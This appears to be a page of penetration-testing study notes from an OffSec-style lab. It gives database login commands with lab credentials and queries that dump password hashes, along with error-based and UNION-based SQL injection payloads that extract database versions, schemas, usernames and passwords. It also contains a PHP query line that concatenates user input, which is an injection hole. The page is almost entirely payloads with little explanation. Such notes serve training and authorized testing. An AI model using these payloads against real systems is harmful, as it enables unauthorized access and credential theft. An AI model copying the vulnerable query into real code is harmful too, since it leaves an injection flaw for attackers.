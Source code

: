 ### mysql

mysql -u root -p'root' -h 192.168.50.16 -P 3306

SELECT user, authentication_string FROM mysql.user WHERE user = 'offsec';


### mssql

impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth -port 1433

SELECT @@version;

SELECT name FROM sys.databases;

SELECT * FROM offsec.information_schema.tables;

select * from offsec.dbo.users;


### site injection
**in username field

whatever' 1=1 in (select @@version) -- //

' or 1=1 in (SELECT password FROM users) -- //

' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //

## UNION based
**search field

$query = "SELECT * from customers WHERE name LIKE '".$_POST["search_input"]."%'";

' ORDER BY 1-- //

%' UNION SELECT 'a1', 'a2', 'a3', 'a4', 'a5' -- //

%' UNION SELECT database(), user(), @@version, null, null -- //

' UNION SELECT null, null, database(), user(), @@version  -- //

' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //

' UNION SELECT null, username, password, description, null FROM users -- //

